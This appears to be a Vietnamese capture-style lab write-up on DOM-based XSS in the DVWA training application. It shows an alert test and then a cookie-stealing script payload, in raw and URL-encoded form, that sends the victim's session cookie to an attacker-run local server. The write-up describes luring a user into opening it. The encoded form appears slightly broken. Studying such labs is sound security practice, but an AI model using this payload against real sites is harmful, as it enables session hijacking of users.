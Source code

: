 # XSS DOM
## Client / Server side
## Pwned Time
![image](https://github.com/user-attachments/assets/2b6ebd0c-6c76-4903-9305-b13b16b73757)
*Mình sẽ khai thác XSS trực tiếp trên client-side khác với XSS reflected khai thác qua server-side*

![image](https://github.com/user-attachments/assets/b5823528-483f-4285-a890-82c4ebb2de35)
*Thử nhập 1 lệnh alert*
--> Kết quả:
![image](https://github.com/user-attachments/assets/752634e3-7aba-43c7-945d-07c6b05c5136)

Pwn time:
1. Tạo 1 local server qua python (port 8000)
![image](https://github.com/user-attachments/assets/6a79af35-58fe-4de8-b9d7-77fb0ad444a4)

2. Tạo payload độc, lừa user nhập vào
Payload gốc:
```
127.0.0.1/dvwa/vulnerabilities/xss_d/?default=English<script>window.location='http://127.0.0.1:8000/?cookie=' + document.cookie</script>
```
![image](https://github.com/user-attachments/assets/ee01b5a4-71a4-48cf-b0db-9b04016eaefc)
*Nó sẽ ra 1 trang ntn*

Encode payload:
```
http://127.0.0.1/dvwa/vulnerabilities/xss_d/?default=English%3Cscript%3Ewindow.location%3D%27http%3A%2F%2F127.0.0.1%3A8000%2F%3Fcookie%3Ddocument.cookie%3C%2Fscript%3E
```
3. Kết quả
Session id của người dùng hiện trong cửa sổ server của attacker
 ![image](https://github.com/user-attachments/assets/71026905-c57d-471c-81db-891455ac4e22)

# XSS Stored
## Code backend
```php
```


